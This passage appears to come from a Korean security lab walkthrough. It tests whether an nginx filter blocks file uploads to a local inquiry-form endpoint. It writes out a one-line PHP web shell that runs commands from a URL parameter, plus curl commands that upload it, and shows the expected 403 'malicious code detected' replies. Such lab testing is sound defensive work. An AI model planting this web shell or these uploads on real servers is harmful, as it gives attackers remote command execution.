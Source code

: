 
## 🧪 Step 2: 일반 업로드 차단 확인

### 테스트 1: 일반 curl 업로드 (차단되어야 함)

```bash
# PHP 웹쉘 생성
echo '<?php system($_GET["cmd"]); ?>' > shell.php

# 일반 업로드 시도
curl -v -X POST http://localhost:9000/api/submit_inquiry.php \
  -F "name=test" \
  -F "email=test@test.com" \
  -F "phone=010-1234-5678" \
  -F "category=technical" \
  -F "subject=test" \
  -F "message=test" \
  -F "image=@shell.php"
```

**예상 결과**:
```
< HTTP/1.1 403 Forbidden
< Server: nginx/1.21.0
< Content-Type: text/plain
<
Malicious filename detected
```

### 테스트 2: 다른 파일명으로 시도 (여전히 차단)

```bash
# 파일명을 innocent.php로 변경
cp shell.php innocent.php

curl -X POST http://localhost:9000/api/submit_inquiry.php \
  -F "name=test" \
  -F "email=test@test.com" \
  -F "phone=010-1234-5678" \
  -F "category=technical" \
  -F "subject=test" \
  -F "message=test" \
  -F "image=@innocent.php"
```

**예상 결과**:
```
< HTTP/1.1 403 Forbidden
<
Malicious code detected
```

**이유**: Nginx가 `system($_GET["cmd"])` 패턴을 탐지!

